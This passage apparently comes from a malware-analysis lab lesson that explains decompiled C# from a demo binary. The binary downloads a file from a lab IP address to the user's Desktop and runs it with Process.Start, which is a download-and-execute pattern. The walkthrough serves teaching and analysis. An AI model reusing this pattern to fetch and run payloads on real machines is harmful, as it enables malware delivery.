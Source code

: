 ```csharp
```

The code above displays the main function and its code. We can observe that first, it prints to the screen the message "Hello THM DEMO Binary" using the [Console.Writeline method](https://learn.microsoft.com/en-us/dotnet/api/system.console.writeline?view=net-8.0).

```csharp
Console.WriteLine("Hello THM DEMO Binary");
```

It then uses the [Sleep](https://learn.microsoft.com/en-us/dotnet/api/system.threading.thread.sleep?view=net-8.0) method to wait for 5 seconds.

```csharp
Thread.Sleep(5000);
```

Then, it assigns a value to two string variables: address and text, the first one with a URL accessing a PNG file, and the second one with a file name on the user's Desktop named **thm-demo.png**.

```csharp
string address = "http://10.10.10.10/img/tryhackme_connect.png";
string text = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Desktop), "thm-demo.png");
```

Then, it will try to connect to the URL on the **address** variable and save the content to a file on the Desktop using the [WebClient class](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-8.0), and it will then execute the downloaded file path assigned to the **text** variable using the [Process class](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics.process?view=net-8.0)  and the [Start method](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics.process.start?view=net-8.0#system-diagnostics-process-start(system-string)), as displayed below.

```csharp
using (WebClient webClient = new WebClient())
	{
		try
		{
			Console.WriteLine("Downloading file...");
			webClient.DownloadFile(address, text);
			Console.WriteLine("File downloaded to: " + text);
			Process.Start(new ProcessStartInfo(text)
			{
				UseShellExecute = true
			});
			Console.WriteLine("Image opened successfully.");
		}
		catch (Exception ex)
		{
			Console.WriteLine("An error occurred: " + ex.Message);
		}
	}
```

Finally, it prints the message "**Bye Bye, leaving THM DEMO Binary**" again to the console and waits for 5 seconds using the **Sleep** method before closing.
